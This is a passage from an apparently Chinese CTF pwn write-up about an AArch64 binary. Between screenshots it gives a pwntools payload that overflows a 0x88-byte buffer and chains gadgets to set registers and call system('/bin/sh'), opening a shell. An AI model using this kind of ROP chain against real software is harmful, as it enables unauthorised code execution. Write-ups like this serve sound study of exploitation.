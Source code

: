 [![](assets/1700442742-f06e859d954718f26cbc4348f9651be9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183817-6b0f12aa-8535-1.png)

下面跳到 main

[![](assets/1700442742-aa70f9b4ed7849dd68668c8a5d20e43e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183820-6cef38e8-8535-1.png)

布置`system('/bin/sh',0,0)`​

```plain
pl = b'a'*0x88 + p64(g1) 
pl+= p64(main) + p64(0x100000000) 
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(bss1) + p64(bss1+8) #x21 --addr  x22 --x0
pl+= p64(0) + p64(0) #x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
p.sendlineafter('Hello, World\n',pl)
```

执行 g1

[![](assets/1700442742-d00af5b6077c6942b7d25e8899fa1a73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183824-6f565db4-8535-1.png)
